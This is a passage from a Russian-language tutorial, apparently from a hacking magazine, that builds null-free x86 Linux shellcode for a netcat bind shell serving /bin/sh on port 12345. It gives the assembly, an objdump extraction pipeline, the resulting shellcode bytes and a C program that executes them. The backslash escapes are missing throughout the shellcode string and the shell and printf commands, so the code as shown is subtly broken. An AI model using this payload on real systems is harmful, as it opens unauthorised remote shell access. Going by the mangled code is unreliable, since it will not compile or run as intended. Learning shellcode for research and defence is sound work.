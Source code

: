Ты, наверное, заметил странноватый путь к бинарнику с двойными слешами. Это делается специально, чтобы число вносимых байтов было кратным четырем, что позволит не использовать нулевой байт (Linux игнорирует слеши, так что `/bin/nc` и `/bin//nc` — это одно и то же).

**Блок 4**

```nasm
push edx        ; Отправляем в стек символ конца строки
push 0x636e2f2f ; Отправляем в стек строку /bin//nc (filename)
push 0x6e69622f
mov ebx, esp    ; Отправляем в EBX адрес строки /bin//nc в стеке
```

**Блок 5**

```nasm
push edx     ; Отправляем в стек символ конца строки
push esi     ; Отправляем в стек адрес со строкой -vp12345
push edi     ; Отправляем в стек адрес со строкой -le//bin//sh
push ebx     ; Отправляем в стек адрес со строкой /bin//nc
mov ecx, esp ; Отправляем в ECX адрес в стеке, ссылающийся на адрес argv[] (указатель на указатель)
xor eax, eax ; Обнуляем EAX
mov al,11    ; Отправляем код 11 для системного вызова execve() в младший байт
```

Почему в AL, а не в EAX? Регистр EAX имеет разрядность 32 бита. К его младшим 16 битам можно обратиться через регистр AX. AX, в свою очередь, можно разделить на две части: младший байт (AL) и старший байт (AH). Отправляя значение в AL, мы избегаем появления нулевых байтов, которые бы автоматически появились при добавлении 11 в EAX.

## Извлекаем shell-код

Чтобы наконец получить заветный shell-код из файла, воспользуемся следующей командой Linux:

```
$ objdump -d ./super_small_bind_shell_1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr 't' ' '|sed 's/ $//g'|sed 's/ /x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

и получаем на выходе вот такой вот симпатичный shell-код:

```
x31xd2x52x68x32x33x34x35x68x2dx76x70x31x89xe6x52x68x2fx2fx73x68
x68x2fx62x69x6ex68x2dx6cx65x2fx89xe7x52x68x2fx2fx6ex63x68x2fx62
x69x6ex89xe3x52x56x57x53x89xe1x31xc0xb0x0bxcdx80
```

## Тестируем

Для теста будем использовать следующую программу на С:

```c
#include<stdio.h>

#include<string.h>

unsigned char shellcode[] =
"x31xd2x52x68x32x33x34x35x68x2dx76x70x31x89xe6x52x68x2fx2fx73x68"
"x68x2fx62x69x6ex68x2dx6cx65x2fx89xe7x52x68x2fx2fx6ex63x68x2fx62"
"x69x6ex89xe3x52x56x57x53x89xe1x31xc0xb0x0bxcdx80";
main()
{
    printf("Shellcode Length: %dn",strlen(shellcode));
    int (*ret)() = (int(*)())shellcode;
    ret();
}
```
